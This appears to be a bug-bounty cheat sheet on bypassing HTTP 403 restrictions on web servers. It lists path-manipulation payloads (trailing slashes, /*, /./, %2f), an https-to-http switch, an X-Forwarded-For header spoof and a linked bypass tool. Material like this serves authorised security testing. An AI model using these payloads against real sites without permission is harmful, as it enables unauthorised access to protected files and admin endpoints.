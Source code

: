 ## 403 Bypass

I am sharing all this tips and techniques from my own personal experience there no official references for that

### Directory Based

If you see directory with no slash at end then do these acts there

```
site.com/secret => 403
site.com/secret/* => 200
site.com/secret/./ => 200
```

### File Base

If you see file without any slash at end then do these acts there

```
site.com/secret.txt => 403
site.com/secret.txt/ => 200
site.com/%2f/secret.txt/ => 200
```

### Protocol Base

Well, sound wired but check out the example for better understanding

```
https://site.com/secret => 403
http://site.com/secret => 200
```

## Payloads

```
/
/*
/%2f/
/./
./.
/*/
```

### Header

[https://observationsinsecurity.com/2020/08/09/bypassing-403-to-get-access-to-an-admin-console-endpoints/](https://observationsinsecurity.com/2020/08/09/bypassing-403-to-get-access-to-an-admin-console-endpoints/)

```
X-Forwarded-For: 127.0.0.1
```

### Tools

Here is a Tool I found on twitter.

-   [https://github.com/yunemse48/403bypasser](https://github.com/yunemse48/403bypasser)

## Proof Of Concept

Well Always look for some references or proof of concept if someone sharing any tips so you may confirm you are not wasting your time at all.
I have some poc video on my YouTube channel for 403 and other Improper access control bugs with those methods. You can check them

YouTube: [Mehedi Hasan Remon](https://www.youtube.com/channel/UCF_yxU7acxUojiGiOAMafQQ/videos?view_as=subscriber)

Author:[@remonsec](https://twitter.com/remonsec)
[@KathanP19](https://twitter.com/KathanP19)
